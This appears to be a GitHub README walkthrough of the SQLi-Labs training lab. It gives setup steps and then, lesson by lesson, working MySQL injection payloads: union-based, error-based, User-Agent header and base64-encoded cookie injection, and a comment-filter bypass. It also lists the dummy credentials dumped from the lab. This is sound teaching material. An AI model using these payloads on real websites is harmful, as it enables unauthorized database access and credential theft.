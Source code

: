 __SQLI LABS__
==========
First we have to setup the lab:

* install apache2 webserver by ```>sudo apt install apache2```
* install mysql by ```>sudo apt-get install mysql-srver```
* install php7
* git clone the repository of the lab and start all the service required

#OBJECTIVE
==========
_dump the contents of the databse using sqli_
 
##LESS-1
========
* first we have to pass the ```?id=``` parameter and pass a numeric value
* fuzz the parameter to get sqli
* when we put ```'``` we get sql error thus we have a sql injection we can comment ou the rest of the query by ```-- -```or ```--+``` or any comments in sql
* then we can dump the contents

 ##payloads to dump
---------------------
check no: of table included 	=```/?id=1'order by 1,2,3,4--+"```

to find the name of data base	= ```/id=-1' union select 1,database(),3--+```
to find table name 	    	= ```/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+```

to find the column name	    	=```/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+```

to find the data 	    	=``` /?id=-1' union select 1,group_concat(username),group_concat(password) from users```

contents of database
--------------------
* name of database=security
* tables		=emails,referers,uagents,users
* columns		=CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER,id,password,username
* usernames	=Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
* password	=Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4  

##LESS-2
========
* when we fuzz the id parameter this time single qot(') i.e ``` ?id=1' ```does not work
* when we put a ```'``` before and after the 1 it worked i.e ```?id='1'```
* we can now comment ```--+``` rest and dump teh database using the same payloads (change 1' => '1') from lesson 1

#PAYLOAD EXAMPLE
=================

to find the data 	    	=``` /?id='-1' union select 1,group_concat(id),group_concat(email) from emails```

contents of database
--------------------
* name of database=security
* tables          =emails,referers,uagents,users
* columns in email=email_id,id
* id	            	=1,2,3,4,5,6,7,8
* email=Dumb@dhakkan.com,Angel@iloveu.com,Dummy@dhakkan.local,secure@dhakkan.local,stupid@dhakkan.local,superman@dhakkan.local,batman@dhakkan.local,admin@dhakkan.com 


##LESS-3
========
* in this lesson when we fuzz the id parameter we can find ``` ') ```  is used to take our input so we can use ``` ') ```  as payload
* then comment it and do the same payload form less-1

##PAYLOAD EXAMPLE
=================

to find the data 	    	=``` /?id=-1') union select 1,group_concat(username),3 from users```

contents of database
--------------------
name of database=security
tables          =emails,referers,uagents,users
columns in uagents=id,ip_address,uagent,username

LESS-4
======
* in this challenge we have to use ' ") ' as payload
* we can use 'and' or 'or' to complete the query insted of commenting

##PAYLOAD EXAMPLE
=================

to find the data 	    	=``` /?id=-1") union select 1,group_concat(username),group_concat(password) from users```

contents of database
--------------------
* name of database=security
* tables		=emails,referers,uagents,users
* columns in referer=id,ip_address,referer


LESS-5
======
* In this challenge we don't  get any response form the databse directy to the browser
* but we get the error when we break the query,so we can dump the database through the error
* we can use rand(),floor(),count() to get error


payloads
---------
this will get database  =```/?id=1' AND (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b)--+```

to get table names      =```/?id=1' AND (select 1 from(select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+```

to get columns          =```/?id=1' AND (select 1 from(select count(*),concat((select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+```

contents of database
--------------------
* databse=security
* tables=emails
* columns=id

less-18
========

this is a header based injection and you can inject query in the user agent feild in the request (you need an intercepting proxy like burp or zap proxy for that)

payload
-------

* to get the data base we can use this payload
```mysql
' and (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b) and '1'='1
```
less-20
=======

form the soruce cose we can see that there it's is fecting data from database using our cookie value so we can inject sql quries in the cookie value

payload

![image](https://user-images.githubusercontent.com/61080375/110950149-7b65b580-8369-11eb-8abd-8306165ba3da.png)

less-21
=======

In this we have to base 64 encode our payload and set it as cookiee
payload example:
YWRtaW5uJyl1bmlvbiBzZWxlY3QgMSwyLDMj : adminn')union select 1,2,3# 

less-22
=======

This is also cookiee based injection where cookie is base64 encoded 
here " was used in the query

payload example

YWRtaW5uIiB1bmlvbiBzZWxlY3QgMSwyLDMj :  adminn" union select 1,2,3#

less-23
=======

This was error based injection but we comment ['#','--'] was filtered
 but we can get injection
 
 payload : ?id=-1'%20 union select 1,database(),3 or%20 '1'='1


